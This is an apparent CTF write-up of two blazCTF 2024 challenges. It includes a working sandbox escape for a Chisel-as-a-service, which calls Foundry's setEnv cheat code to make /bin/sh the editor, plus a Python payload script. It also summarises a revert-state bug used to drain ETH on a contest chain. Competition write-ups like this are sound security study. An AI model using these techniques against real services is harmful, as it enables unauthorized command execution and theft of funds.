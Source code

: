 ```yaml
---
title: (CTF) blazCTF 2024 writeup (Chisel as a Service, teragas)
description: blazCTF writeup
categories: [CTF,WEB3]
tags : [writeup,web3]
date : 2024-10-31 05:02:13 +0900
author:
    name:
    link:
toc: true
comments: true
mermaid: true
math: true
---
```


I played blaz CTF as [KimchiPremium](https://x.com/Web3Kimchi), had a lots of fun with awesome kimchi hackers 

## Chisel as a Service
---
> Chisel as a Service
> Mina just develops a highly robust Solidity sandbox!
> 
> 
> Connect to Challenge: nc chisel-as-a-service.chal.ctf.so 1337
> Your Ticket: 2b88a986-595d-45b0-9a24-2aa11a6c5c6d
> 
> 
> Handouts
> 
> 
> /* Author: minaminao */
> 
> \# Solidity,Sandbox / 25 solves / 371 pts

The server runs `chisel` with `--no-vm` option and the `-e`, `-exec` keyword are disabled. The filename of flag is random so we need get get a shell.

### chisel commands
---

```
No solidity versions installed! Installing solidity version 0.8.19...
Welcome to Chisel! Type `!help` to show available commands.
⚒️ Chisel help
=============
General
    !help | !h - Display all commands
    !quit | !q - Quit Chisel
    !exec <command> [args] | !e <command> [args] - Execute a shell command and print the output

Session
    !clear | !c - Clear current session source
    !source | !so - Display the source code of the current session
    !save [id] | !s [id] - Save the current session to cache
    !load <id> | !l <id> - Load a previous session ID from cache
    !list | !ls - List all cached sessions
    !clearcache | !cc - Clear the chisel cache of all stored sessions
    !export | !ex - Export the current session source to a script file
    !fetch <addr> <name> | !fe <addr> <name> - Fetch the interface of a verified contract on Etherscan
    !edit - Open the current session in an editor

Environment
    !fork <url> | !f <url> - Fork an RPC for the current session. Supply 0 arguments to return to a local network
    !traces | !t - Enable / disable traces for the current session
    !calldata [data] | !cd [data] - Set calldata (`msg.data`) for the current session (appended after function selector). Clears it if no argument provided.

Debug
    !memdump | !md - Dump the raw memory of the current state
    !stackdump | !sd - Dump the raw stack of the current state
    !rawstack <var> | !rs <var> - Display the raw value of a variable's stack allocation. For variables that are > 32 bytes in length, this will display their memory pointer.
```
To execute shell command, we need to find some command that uses `process::Command`. Not only `exec`, but also `edit` command uses `Command` to open the editor.

```rust
ChiselCommand::Edit => {
    // create a temp file with the content of the run code
    let mut temp_file_path = std::env::temp_dir();
    temp_file_path.push("chisel-tmp.sol");
    let result = std::fs::File::create(&temp_file_path)
        .map(|mut file| file.write_all(self.source().run_code.as_bytes()));
    if let Err(e) = result {
        return DispatchResult::CommandFailed(format!(
            "Could not write to a temporary file: {e}"
        ))
    }

    // open the temp file with the editor
    let editor = std::env::var("EDITOR").unwrap_or_else(|_| "vim".to_string());
    let mut cmd = Command::new(editor);
    cmd.arg(&temp_file_path);

    match cmd.status() {
...
```
In the `edit` command, it saves the current running code to a `/tmp/chisel-tmp.sol` and executes the editor with the file as an argument.

With [setEnv](https://book.getfoundry.sh/cheatcodes/set-env) function in Vm cheat code, we can set the `EDITOR` environment variable to `/bin/sh` and execute the contents of the running code as a shell script. but the `--no-vm` flag is set. what's actually that flag? 

### --no-vm flag
---
```rust
 pub fn to_repl_source(&self) -> String {
    let Version { major, minor, patch, .. } = self.solc.version;
    let Self { contract_name, global_code, top_level_code, run_code, config, .. } = self;

    let (vm_import, vm_constant) = if !config.no_vm {
        (
            "import {Vm} from \"forge-std/Vm.sol\";\n",
            "Vm internal constant vm = Vm(address(uint160(uint256(keccak256(\"hevm cheat code\")))));\n"
        )
    } else {
        ("", "")
    };
```
In the chisel code, with `--no-vm` flag, it does not import the `Vm` contract and does not set the `vm` constant. that's all. we can still call the cheat code in Vm contract with the address `address(uint160(uint256(keccak256("hevm cheat code"))))`.

So, by setting the `EDITOR` environment variable to `/bin/sh`, we can executes the contents of the running code as a shell script. But the running code need to be a valid solidity code. we can just add comment with `;` and execute the shell script like `//; cat /flag-*`.

### exploit
---
```python
import requests

url = "http://snwo.kr:3000/"

code = """
//;cat /flag-*
address hevm = address(uint160(uint256(keccak256("hevm cheat code"))));
interface VM { function setEnv(string calldata key, string calldata value) external; }
VM vm = VM(hevm);
vm.setEnv("EDITOR", "/bin/sh");
!edit
"""
uuid = requests.get(url+"run",params={"code":code}).json()['uuid']

r = requests.get(url+"out/"+uuid)
print(r.text)
```

## Teragas

> Teragas
> After getting exploited by REVMC bug, Tony started to hate Paradigm. Seeing Paradigm invested in so many parallel EVM chains and built Reth, Tony decided to build an even faster chain to compete with them.
> 
> This is a King Of the Hill challenge. The more ETHs you steal, the more points you would get. Submit your exploit at teragas.ctf.so
>  ... 
> /* Author: shoucccc */
> 
> \# KoH,EVM / 6 solves / 2500 pts
> 
> Team KimchiPremium: `1986007ETH`
> Team DPRK Workers In Your Company: 1796703ETH
> Team Wut is Ciallo: 1656267ETH
> Team Amber Labs: 1532119ETH
> Team offside_labs_interns: 1478952ETH
> Team DeFiHackLabs: 277542ETH
> Team shou: 0ETH

just a brief writeup. we total earned `19,986,007` ETH. There is a bug that each state related opcodes do recover the state when it reverts. So we can leverag this to bypass check balance or smth.
for example, maker dao contract first mint a token and check the balance. the `sstore` opcode does not recover the state when it reverts. so we can still get the minted tokens after it reverts.

we stole all the weth pair of top TVL swaps, and also flash loan contracts, bridge, or smth.